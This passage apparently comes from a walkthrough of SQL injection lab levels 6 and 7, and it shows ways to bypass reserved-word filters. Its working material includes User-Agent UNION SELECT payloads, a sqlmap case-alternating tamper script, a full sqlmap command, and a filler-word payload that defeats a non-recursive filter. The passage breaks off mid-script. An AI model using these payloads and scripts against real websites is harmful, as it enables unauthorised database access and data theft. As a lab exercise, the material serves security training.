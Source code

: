 MySQL's reserved words have been filtered. Using RaNDom case does not help, as you can have, for example, somethin like "InfoRMaTIon_ScheMa" who will become "InfoRMaTI_ScheMa", as "on" or "ON" is a valid reserved word.

PoC:
```bash
GET / HTTP/1.1
Host: 6.sqli.labs
User-Agent: ' UNiOn seLect @@versiOn;#
```
The only way to get around this kind of filtering during the exploitation automation phase is to use DifFeReNt CaSe for every letter
You have to write a simple tampering script:
```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    retVal = str()

    if payload:
        for i in xrange(len(payload)):
            if (i % 2 == 0):
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    retVal += payload[i].upper()
                else:
                    retVal += payload[i]
            else:
                retVal += payload[i].lower()
    return retVal
```
SQLMap command line:
```bash
sqlmap -u 'http://6.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner
```
## Level 7
In this scenario, the case-insensitive filter cuts out all the reserved words, but the filter is not recursive.
PoC:
```bash
GET / HTTP/1.1
Host: 7.sqli.labs
User-Agent: ' uZEROFILLnZEROFILLiZEROFILLoZEROFILLnZEROFILL ZEROFILLsZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt ZEROFILL@@ZEROFILLvZEROFILLeZEROFILLrZEROFILLsZEROFILLiZEROFILLoZEROFILLnZEROFILL; ZEROFILL-- ZEROFILL-ZEROFILL
```
Tampering script:
```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY

```